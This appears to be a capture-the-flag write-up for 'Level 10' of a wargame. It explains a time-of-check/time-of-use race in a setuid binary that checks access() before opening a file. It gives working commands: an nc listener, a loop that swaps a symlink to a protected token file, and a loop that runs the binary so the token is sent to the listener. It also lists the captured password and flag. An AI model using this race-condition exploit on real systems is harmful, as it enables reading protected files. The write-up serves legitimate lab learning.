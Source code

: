 # Level 10

A quick reverse engineer of the binary shows us that the binary reads the file and send it to an host. Unlike the previous ones it checks that we have access to the file using the access function. This function has an exploit documented in its man

```
Using  these  calls  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

We will do exactly that while listening to port 6969 which is the one the script is communicating with

```
nc -lk 6969
```

```
while true; do ln -sf /tmp/fake /tmp/goodlink; ln -sf /home/user/level10/token /tmp/goodlink; done
```

```
while true; do ./level10 /tmp/goodlink 10.0.2.15; done
```

**Password** : woupa2yuojeeaaed06riuj63c

**Flag:** feulo4b72j7edeahuete3no7c
